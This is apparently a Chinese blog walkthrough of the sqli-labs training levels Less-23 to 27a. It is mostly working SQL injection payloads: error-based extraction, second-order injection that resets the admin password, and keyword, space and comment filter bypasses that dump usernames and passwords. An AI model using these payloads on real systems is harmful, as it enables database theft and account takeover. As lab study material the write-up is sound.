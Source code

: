 ### Less-23
过滤了`#` 和`--+`等闭合的符号，所以通过 `or '1'='1` 来闭合后面的引号,仍然使用之前的报错原理
```
-1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) or '1'='1
```
<!--more-->
获取security数据库的所有表单
```
-1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1) or '1'='1
```
![](image/61.png)
获取user表所有字段
```
-1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) or '1'='1
```
获取username/password
```
-1' and updatexml(1,concat(0x7e,(select group_concat(username) from users),0x7e),1) or '1'='1
-1' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1) or '1'='1
```
如果长度不够，可以通过limit 0,1这样的手法拿到所有数据

### Less-24 
#### 二次注入，可以概括为以下两步:
第一步：插入恶意数据
进行数据库插入数据时，对其中的特殊字符进行了转义处理，在写入数据库的时候又保留了原来的数据。

第二步：引用恶意数据
开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没有进行进一步的检验的处理。
本地登录的地方我们发现万能密码失败，于是查看源码
```
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```
由于对于我们的账号密码使用`mysql_real_escape_string`转义过。
本题可以采用二次注入
1. 首先创建一个user叫做`admin'#`,密码随意，我们可以看到，数据库中真的就出现了这么一条数据
2. 然后使用`admin'#`加上自己的密码登录
3. 然后修改密码为123456，最后效果居然是将admin用户改为123456的密码，自己新建的账号密码还是自己设定的
##### why?
首先我们看更新密码的查询语句为
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```
这是因为上面的数据库更新语句，在用户名为 "admin'#" 时执行的实际是：
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass' ";
```
等同于
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin';
```

### Less-25
把 or、and过滤了,其实好像也没怎么用上，而且发现只是一次过滤，通过双写绕过，那么和第一题就差不多了
比如order中有or所以可以写成oorrder,将其中的一个or过滤后剩下为order
```
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23
```
### Less-25a
先寻找注入点
```
1" oorr 1 %23
1' oorr 1 %23
1 oorr 1 %23
```
只有第三种没啥问题，所以本题就是不需要加引号直接注入
```
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23
```
### Less-26
空格与注释被过滤了,最后的注释可以使用`or '1'='1` 来闭合，
然后空格可以用这些代替
```
%09 = TAB键（水平）

%0a = 新建一行

%0c = 新的一页

%0d = return功能

%0b = TAB键（垂直）

%a0 = 空格

&&(%26%26) = and
```
使用报错注入
```
0'||updatexml(1,concat(0x7e,(database()),0x7e),1)||'1'='1
```
这样是没问题的，然后爆库
```
0%27||updatexml(1,concat(0x7e,(select%0Agroup_concat(schema_name)%0Afrom%0Ainfoorrmation_schema.schemata),0x7e),1)||%271%27=%271
```
然后不行了，黑人问号？
试试直接拿数据
```
0%27||updatexml(1,concat(0x7e,(select%0agroup_concat(username)%0afrom%0ausers),0x7e),1)||%271%27=%271
```
![](image/63.png)
![](image/62.png)
最后网上有师傅回答是windows系统的缘故？然后发现可以用括号过滤乖乖
```
0'||extractvalue(1, concat(0x5c,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)=database())))||'1'='1
```
表名
```
0'||updatexml(1,concat('$',(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),0)||'1'='1
```
字段名
```
0'||updatexml(1,concat('$',(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security')%26%26(table_name='users'))),0)||'1'='1
```
数据
```
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',passwoorrd))from(users)where(username)='admin')),0)||'1'='1
```

### Less-26-a
题目提示空格与注释被过滤了而且加了括号，所以还是盲注解决吧(其实还是windows环境的锅导致%0a等不能实现，正经的服务器应该不会是windows的吧)
所以这样是可以de
```
100')union%a0select%a01,user(),('3
```
### Less-27
题目提示union与select被过滤了，可直接报错使用，当然也可以大小写来绕过还是上面的问题，因为windows的服务器，%0a不用，所以还是使用报错来写
```
0'||(updatexml(1,concat(0x5e5e,database()),1))||'1'='
```
然后想拿数据
```
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',password))from(users)where(username)='admin')),0)||'1'='
```
很好就报错了
![](image/62.png)
然后发现有师傅提供了一种非常骚的做法,用`/*%0a*/`强行制造空格。awsl
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/'1'='1
```
表名
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(table_name)/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema='security'),4/*%0a*/||/*%0a*/'1'='1
```
字段名
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(column_name)/*%0a*/from/*%0a*/information_schema.columns/*%0a*/where/*%0a*/table_schema='security'/*%0a*/%26%26/*%0a*/table_name='users'),4/*%0a*/||/*%0a*/'1'='1
```
数据
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(concat_ws('$',id,username,password))/*%0a*/from/*%0a*/users),4/*%0a*/||/*%0a*/'1'='1
```
### Less-27-a
把单引号改成双引号即可
```
0"/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/"1"="1
```

更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)